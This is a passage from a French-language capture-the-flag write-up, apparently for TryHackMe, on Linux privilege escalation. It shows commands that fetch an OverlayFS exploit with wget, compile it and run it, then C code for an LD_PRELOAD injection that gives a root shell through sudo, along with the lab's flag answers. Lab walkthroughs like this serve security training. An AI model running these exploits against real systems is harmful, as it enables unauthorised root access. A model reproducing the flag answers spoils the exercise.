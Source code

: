 ### Sur la machine cible :

```bash
$ cd /tmp                               # Dossier exécutable
$ wget http://<TARGET-IP>:8000/overlayfs_exploit.c
$ gcc overlayfs_exploit.c -o rootme     # Compiler l'exploit
$ chmod +x rootme                       # Rendre exécutable
$ ./rootme                              # Lancer l'exploit
$ id                                    # Vérifier l'UID
```

| Flag   | flag1.txt          |
| ------ | ------------------ |
| Answer | THM-28392872729920 |

## 🧪 Phase 3 : Escalade via sudo + LD\_PRELOAD

**Objectif :** Abuser de sudo et de LD\_PRELOAD pour injecter du code root.

### Sur ma machine locale :

Créer `inject_root.c` :

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");  // Nettoyer l'environnement
    setuid(0);
    setgid(0);
    system("/bin/bash");      // Shell root
}
```

Compiler :

```bash
$ gcc -fPIC -shared -o inject_root.so inject_root.c -nostartfiles
```

### Sur la machine cible :

```bash
$ sudo -l                                                # Vérifier les droits sudo
$ sudo LD_PRELOAD=/home/user/inject_root.so find         # Lancer un binaire exploitable
```

| Flag   | flag2.txt     |
| ------ | ------------- |
| Answer | THM-402028394 |

## 📡 Phase 4 : Sudo Nmap Interactive
